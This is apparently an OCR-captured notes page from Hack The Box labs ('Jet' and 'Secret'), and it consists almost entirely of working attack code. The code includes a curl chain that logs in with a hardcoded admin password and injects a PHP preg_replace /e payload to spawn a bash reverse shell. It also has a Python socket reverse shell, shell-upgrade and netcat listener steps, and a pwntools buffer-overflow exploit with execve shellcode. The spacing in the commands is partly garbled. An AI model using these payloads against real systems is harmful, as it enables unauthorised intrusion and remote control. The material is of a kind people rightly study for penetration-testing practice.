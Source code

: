 ```
$PHPSESSID=$(curl-XPOST-sL"http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dologin.php"-d"username=admin&password=Hackthesystem200"-o/dev/null-D-|fgrep"Set-Cookie:"|head-1|perl-ne'print$1ifm?PHPSESSID=([0-9a-z]{26});?');IP="10.13.14.8";PORT=4444;SH="exec("/bin/bash -c 'bash -i >& /dev/tcp/${IP}/${PORT} 0>&1'");";curl-XPOST-sL"http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php"-H"Cookie:PHPSESSID=${PHPSESSID}"-d"swearwords[/message/e]=${SH}&swearwords[/shit/i]=poop&swearwords[/ass/i]=behind&swearwords[/dick/i]=penis&swearwords[/whore/i]=escort&swearwords[/asshole/i]=bad+person&to=admin@securewebinc.jet&subject=subject&message=<p>message</p>&_wysihtml5_mode=1"-o/dev/null
```



python3 -c 'import pty;pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -lvvp 1337
┌──(root💀kali)-[~/htb/secret]
└─# stty raw -echo; fg



python -c "import pty; pty.spawn(\"/bin/bash\");"
export TERM=linux; export TERMINFO=/etc/terminfo

python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.13.14.46\",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"


┌──(root💀kali)-[~/htb/jet]
└─# cat sploit.py       
from pwn import *
p=remote('10.13.37.10',60002)
p.recvuntil("Oops, I'm leaking! ")
leak=int(p.recvuntil("\n"),16)
print (hex(leak))
p.recvuntil("> ")
shellcode=b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buf=shellcode
buf+=b"\x90"*(72-len(shellcode))
buf+=p64(leak, endian="little")
p.sendline(buf)
p.interactive()

